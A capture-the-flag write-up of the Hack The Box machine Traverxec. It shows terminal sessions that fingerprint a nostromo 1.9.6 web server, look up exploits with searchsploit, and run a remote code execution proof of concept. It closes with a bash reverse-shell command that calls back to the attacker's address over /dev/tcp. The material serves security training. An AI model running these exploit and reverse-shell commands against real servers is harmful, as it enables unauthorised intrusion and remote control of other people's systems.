

# 10 - HTTP


# nostromo
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ curl 10.10.10.165/test
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>404 Not Found</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>404 Not Found</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>
```

Nostromo is an open source web server.

# searchsploit 


```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ searchsploit nostromo
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                                                        | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                                                      | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                                                        | linux/remote/35466.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

A remote code execution PoC is available for this version on exploitdb.


# Remote Code Execution
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ python2 exploit.py 10.10.10.165 80 whoami


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


HTTP/1.1 200 OK
Date: Tue, 24 Aug 2021 17:30:14 GMT
Server: nostromo 1.9.6
Connection: close


www-data
```

The exploit works!


# Shell

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/traverxec]
└──╼ $ python2 exploit.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"'
```
This command returns a reverse shell to the attacker.




